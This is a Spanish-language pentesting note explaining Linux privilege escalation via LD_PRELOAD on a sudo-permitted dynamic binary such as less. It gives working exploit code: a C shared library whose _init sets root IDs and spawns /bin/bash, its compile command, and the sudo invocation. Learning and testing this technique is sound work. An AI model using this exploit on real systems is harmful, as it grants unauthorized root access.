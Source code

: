 ## 🛠️ **Escalada de privilegios con `LD_PRELOAD` sobre binarios dinámicos**

### 🔴 **Resumen de la vulnerabilidad**

Cuando tienes **permisos `sudo` sobre un binario dinámico** (es decir, que carga librerías compartidas `.so`), puedes abusar de la variable de entorno `LD_PRELOAD` para inyectar una librería maliciosa. Esto permite ejecutar código arbitrario como **root**, logrando una escalada de privilegios inmediata.

### 🧩 **Conceptos clave**

- **Librerías dinámicas** (`.so`): son módulos que un programa carga en tiempo de ejecución. A diferencia de las librerías estáticas (`.a`), no forman parte del binario, sino que se buscan y cargan desde el sistema cuando se ejecuta.
    
- **`LD_PRELOAD`**: es una variable de entorno que permite cargar una librería `.so` personalizada **antes** de que el programa cargue sus librerías normales. Las funciones de la `.so` inyectada tendrán prioridad sobre las originales.

## ⚙️ **Requisitos para que funcione**

1. **Tener permisos `sudo` sobre un binario dinámico**:
    
    - El binario debe poder ser ejecutado con `sudo` sin restricciones adicionales.
    - Ejemplo de `sudo -l`:
		```bash
		(root) /usr/bin/less
		```
2.  El binario debe de ser dinámico:
	-  Es decir, que cargue librerías `.so` en tiempo de ejecución.
	- **Binarios estáticos NO son vulnerables** a `LD_PRELOAD`.
3.  **Que la configuración de `sudo` no bloquee variables de entorno peligrosas**:
    - No debe haber protecciones como `env_reset` bloqueando `LD_PRELOAD`.

## 🔍 **Cómo detectar binarios dinámicos**

📌 Método 1: `file`
```
file /usr/bin/less
```

Resultado esperado:
```python
/usr/bin/less: ELF 64-bit LSB shared object, dynamically linked, ...
```

📌 Método 2: `ldd`
```bash
ldd /usr/bin/less
```
Si devuelve una lista de `.so` es dinámico, por ejemplo:
```bash
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (...)
```

## 🚀 **Explotación**

1. Código de la librería maliciosa (`root.c`):
	```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
	```
2. Compilar librería:
	```bash
	gcc -fPIC -shared -o root.so root.c -nostartfiles
	```
3. Ejecutar con `sudo`:
	```bash
	sudo LD_PRELOAD=./root.so /usr/bin/less
	```
✅ **Resultado:** obtienes una **shell como root**.

### ⚠️ **Notas importantes**

- Esto **NO funciona sobre binarios SUID root**, ya que ignoran `LD_PRELOAD`.
- Solo es efectivo cuando tienes `sudo` sobre un binario dinámico y la configuración de `sudoers` es laxa.
### 🚩 **Checklist rápida**

✔ Binario es dinámico (`ldd` o `file` te lo confirman).  
✔ Permisos `sudo` sobre el binario (`sudo -l`).  
✔ `sudo` no filtra `LD_PRELOAD` (`env_reset` o configuraciones similares).  
✔ El binario no es SUID root.
